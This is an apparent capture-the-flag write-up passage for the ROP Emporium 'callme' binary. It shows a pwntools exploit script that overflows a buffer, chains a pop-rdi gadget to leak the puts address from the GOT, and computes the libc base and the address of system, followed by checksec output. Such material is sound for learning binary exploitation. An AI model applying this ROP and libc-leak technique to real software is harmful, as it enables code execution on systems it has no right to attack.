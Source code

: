 ```python
from pwn import *

elf = context.binary = ELF("./callme")

# addresses of our PLT and GOT entries for puts
PUTS_PLT = elf.plt["puts"]
PUTS_GOT = elf.got["puts"]

# our gadget
POP_RDI_GADGET = p64(0x4009a3)

libc = elf.libc

# retrieve of offsets of system and puts from libc
LIBC_SYSTEM = libc.sym["system"]
LIBC_PUTS = libc.sym["puts"]

payload1 = b'A' * 40

# pop the address of puts on the got into rdi
payload1 += POP_RDI_GADGET
payload1 += p64(PUTS_GOT)
# call puts
payload1 += p64(PUTS_PLT)

conn = process()

conn.recvuntil(b'> ')

print("[*] sending payload 1")
conn.send(payload1)

conn.recvuntil(b"Thank you!\n")
# bit of a hack but it worked
puts_addr = u64(conn.recv(6) + b'\x00\x00')
print("[*] received libc_puts address %s" % hex(puts_addr))

# calculate the address of system

# from the leaked address of puts, use its offset to calculate the address of libc
libc_leak = puts_addr - LIBC_PUTS
print("[*] libc leaked address is %s" % hex(libc_leak))
# from there, add the offset of system to calculate its address
libc_system_leak = libc_leak + LIBC_SYSTEM
print("[*] system leaked address is %s" % hex(libc_system_leak))
```

Running it, we get:

```text
$ python shell.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] '/usr/lib/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
```